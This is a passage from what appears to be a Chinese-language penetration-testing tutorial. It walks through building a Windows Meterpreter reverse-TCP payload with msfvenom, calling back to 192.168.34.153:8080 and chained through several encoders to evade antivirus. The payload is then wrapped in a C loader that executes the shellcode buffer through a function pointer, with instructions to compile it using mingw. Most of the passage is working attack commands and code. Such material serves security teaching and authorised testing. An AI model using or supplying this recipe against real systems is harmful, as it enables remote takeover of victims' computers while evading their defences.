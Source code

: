 1.  在终端窗口中，使用`mkdir msfv-shellcode`命令创建一个新目录。
2.  使用`cd msfv-shellcode`命令导航到目录。
3.  现在，使用以下链接的命令创建有效负载：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f c -o MSFV-shellcode.c
```

执行上述命令后，MSFvenom 将创建外壳代码文件。

现在，我们需要添加一些变量，这样我们就可以使用 C 编程语言来编译它。编辑刚刚使用文本编辑器或 nano 创建的`MSFV-shellcode.c`文件。

添加以下以粗体标记的行：

```
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xbd\xa1\xe2\xe6\x8b\xd9\xeb\xd9\x74\x24\xf4\x5f\x2b\xc9\x66"
"\xb9\x1b\x01\x83\xef\xfc\x31\x6f\x12\x03\x6f\x12\x43\x17\x5c"
"\x54\x5a\x66\x22\xb1\x95\x4e\x51\x62\xd1\x2e\xa9\xa3\x7f\x68"
"\xd9\x32\xfc\x65\x1e\x05\x55\x6b\xdc\x31\x97\xb0\xa9\x85\xdb"
--snip--

int main ()
{
 printf("Shellcode Length: %d\n", strlen(buf));
 int (*ret)() = (int(*)())buf;

 ret();
}
```

在前面的代码中，我剪切了外壳代码，以便所需的代码行可见。在外壳代码文件中，`unsigned char buf [] =`行下面将有更多字符。

在前面的代码中，我们添加了以下组件：

| `#include<stdio.h>` | 这里，我们调用一个引用输入和输出函数的库。 |
| `#include<string.h>` | 在这里，我们调用一个库来处理字符串，因为我们使用`strlen`函数来计算字符串长度 |
| `int main` | 此字符串用于声明函数。在 C 编程语言中，`main`下的函数是程序加载时运行的函数。 |
| `printf("Shellcode Length: %d\n` | 此行用于发送打印输出并屏蔽外壳代码长度。 |
| `int (*ret)() = (int(*)())buf;`

`ret ()` | `int (*ret)()`用于声明指针，`=(int(*)())buf;`是将要使用的指针。`ret()`正在调用该指针，该指针随后指向运行的外壳代码。 |

一旦您添加了额外的代码，我们现在可以将其编译成一个可执行文件（参见下面的屏幕截图）。这是使用`mingw32`编译器完成的，该编译器在您安装 Veil 框架时已经安装。如果未安装，可以使用以下命令进行安装：

```
apt install mingw-w64
```
